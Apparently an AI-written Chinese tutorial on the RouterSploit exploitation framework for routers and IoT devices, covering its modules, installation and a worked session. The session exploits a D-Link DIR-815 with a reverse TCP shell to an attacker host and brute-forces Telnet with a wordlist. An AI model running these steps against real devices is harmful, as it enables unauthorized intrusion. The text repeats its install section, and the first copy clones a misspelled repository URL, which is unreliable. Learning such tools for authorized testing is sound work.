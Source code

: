 routersploit基于python3开发，安装过程相当简单

方法一：从github克隆（推荐）
```bash
#1.克隆仓库（以社区活跃分支为例）

git clone https://github.com/wuxinios/routercploit.git

#2.进入目录
cd routersploit

#3.安装依赖
pip3 install -r requirements.txt
 
#4.运行
python3 rsf.py

```

方法二：使用docker安装
```bash
#拉取镜像
docker pull threat9/routersploit

#或者从克隆的目录构建
docker build -t routersploit .

#运行容器
docker run -it --rm routersploit

```

运行成功后，你会看到一个交互式命令行提示符：rsf>


好的，下面为你详细介绍一下 **RouterSploit**，这个专门用于嵌入式设备和网络设备安全的强大开源框架。

### RouterSploit 全面详解

#### 一、什么是 RouterSploit？

**RouterSploit** 是一个开源的漏洞利用框架，专门针对**嵌入式设备**和**网络设备**，如：
*   **路由器**
*   **摄像头**（IP Camera）
*   **网络附加存储**（NAS）
*   **打印机**
*   **智能家居设备**（如智能插座、网关）
*   以及其他运行着定制化固件的 IoT 设备

它在设计上**高度借鉴了 Metasploit 的理念和架构**，因此如果你熟悉 Metasploit，会非常容易上手 RouterSploit。你可以把它看作是 **“嵌入式设备领域的 Metasploit”**。

**项目地址**： `https://github.com/threat9/routersploit` （请注意，原仓库已归档，社区有多个活跃分支，例如 `https://github.com/wuxinios/routersploit`）

---

#### 二、核心架构与功能模块

RouterSploit 采用模块化设计，其模块主要分为以下几大类，可以通过 `use` 命令加载，类似于 Metasploit。

1.  **侦察模块**
    *   **功能**： 用于识别目标设备的品牌、型号、固件版本等信息，而无需进行攻击。
    *   **例子**： `scanners/autopwn`， `scanners/cameras/tplink_cloud_cam_scanner`

2.  **漏洞利用模块**
    *   **功能**： 这是框架的核心。这些模块包含针对特定设备、特定固件版本的已知漏洞的利用代码。
    *   **目标**： 利用漏洞在目标设备上执行代码、获取敏感信息或造成拒绝服务。
    *   **例子**： `exploits/routers/dlink/dir_8xx_300_315_645_815_upnp_rce` （D-Link 多个型号的远程代码执行漏洞）

3.  **凭据扫描模块**
    *   **功能**： 针对设备的管理界面（如 Web 界面、Telnet、SSH）进行默认或弱口令的暴力破解。
    *   **为什么重要**： 很多 IoT 设备在出厂后从未更改过默认密码，这是最常见的安全问题之一。
    *   **例子**： `creds/telnet_bruteforce`， `creds/http_basic_auth_bruteforce`

4.  **载荷模块**
    *   **功能**： 在漏洞利用成功后，用于在目标设备上执行特定操作的单行命令或小型脚本。
    *   **例子**： `payloads/generic/bind_tcp` （在目标上打开一个 TCP 端口进行绑定连接）， `payloads/generic/reverse_tcp` （让目标设备反向连接到攻击者的机器）。

5.  **泛洪攻击模块**
    *   **功能**： 对目标设备发起拒绝服务攻击，用于测试设备的抗压能力。
    *   **注意**： **请务必在授权环境下使用**，否则是非法的。
    *   **例子**： `flooders/tcp`， `flooders/http`

---

#### 三、安装与运行

RouterSploit 基于 **Python 3** 开发，安装过程相对简单。

**方法一：从 GitHub 克隆（推荐）**
```bash
# 1. 克隆仓库（以社区活跃分支为例）
git clone https://github.com/wuxinios/routersploit.git

# 2. 进入目录
cd routersploit

# 3. 安装依赖
pip3 install -r requirements.txt

# 4. 运行
python3 rsf.py
```

**方法二：使用 Docker**
如果你不想配置 Python 环境，Docker 是最简单的方式。
```bash
# 拉取镜像（可能需要寻找维护中的 Docker 镜像）
docker pull threat9/routersploit
# 或者从克隆的目录构建
docker build -t routersploit .

# 运行容器
docker run -it --rm routersploit
```

运行成功后，你会看到一个交互式命令行提示符：`rsf >`

---

#### 四、基本使用流程与实战示例

让我们模拟一次对目标路由器（假设为 D-Link DIR-815 路由器）的测试流程。

**步骤 1：启动并搜索模块**
```bash
python3 rsf.py
# 在 rsf 提示符下，搜索与 D-Link 相关的模块
rsf > search dlink
```
这会列出所有与 `dlink` 相关的 exploits, scanners 和 creds 模块。

**步骤 2：使用侦察模块（可选）**
```bash
rsf > use scanners/autopwn
rsf (Autopwn) > show options
```
设置目标后运行，它会自动尝试识别目标设备可能存在的漏洞。

**步骤 3：使用漏洞利用模块**
假设我们找到了一个针对 DIR-815 的漏洞。
```bash
# 1. 选择利用模块
rsf > use exploits/routers/dlink/dir_8xx_300_315_645_815_upnp_rce

# 2. 查看需要设置的选项
rsf (D-Link DIR-8XX Remote Code Execution) > show options

# 3. 设置目标
rsf (D-Link DIR-8XX Remote Code Execution) > set target 192.168.1.1
[+] target => 192.168.1.1

# 4. 设置载荷（例如，一个反向 TCP Shell）
rsf (D-Link DIR-8XX Remote Code Execution) > set payload generic/reverse_tcp
[+] payload => generic/reverse_tcp

# 5. 查看载荷选项并设置
rsf (D-Link DIR-8XX Remote Code Execution) > show options

# 设置攻击者的 IP 和端口
rsf (D-Link DIR-8XX Remote Code Execution) > set lhost 192.168.1.100 # 你的 Kali IP
[+] lhost => 192.168.1.100
rsf (D-Link DIR-8XX Remote Code Execution) > set lport 4444
[+] lport => 4444

# 6. 执行攻击
rsf (D-Link DIR-8XX Remote Code Execution) > run
```
如果漏洞利用成功，你将在本地的 4444 端口收到一个来自目标路由器的反向 Shell。

**步骤 4：使用凭据扫描模块**
如果漏洞利用不成功，可以尝试爆破。
```bash
# 1. 选择 Telnet 暴力破解模块
rsf > use creds/telnet_bruteforce

# 2. 设置目标、用户名和密码字典文件
rsf (Telnet Bruteforce) > set target 192.168.1.1
rsf (Telnet Bruteforce) > set username admin
rsf (Telnet Bruteforce) > set passwd /usr/share/wordlists/rockyou.txt

# 3. 运行
rsf (Telnet Bruteforce) > run
```
如果成功，工具会显示出有效的用户名和密码。

---

#### 五、RouterSploit 的优势与局限

**优势：**
1.  **高度专业化**： 专注于一个被传统漏洞扫描器忽视的领域。
2.  **模块化与可扩展**： 结构清晰，易于添加新的漏洞利用模块。
3.  **开源免费**： 完全免费，社区驱动。
4.  **与 Metasploit 相似**： 学习曲线平缓，尤其对于 Metasploit 用户。
5.  **功能全面**： 覆盖了从信息收集到漏洞利用、凭据爆破的完整攻击链。

**局限与挑战：**
1.  **依赖社区更新**： 由于原项目已归档，漏洞库的更新依赖于社区的活跃分支，可能无法涵盖最新的漏洞。
2.  **架构兼容性**： 很多漏洞利用和载荷是针对特定 CPU 架构（如 MIPS, ARM）的，需要精确匹配。
3.  **环境依赖性**： 在某些网络环境下，反向连接等载荷可能因为 NAT、防火墙等原因失败。
4.  **误报可能性**： 自动化工具并非 100% 准确，需要手动验证。

---

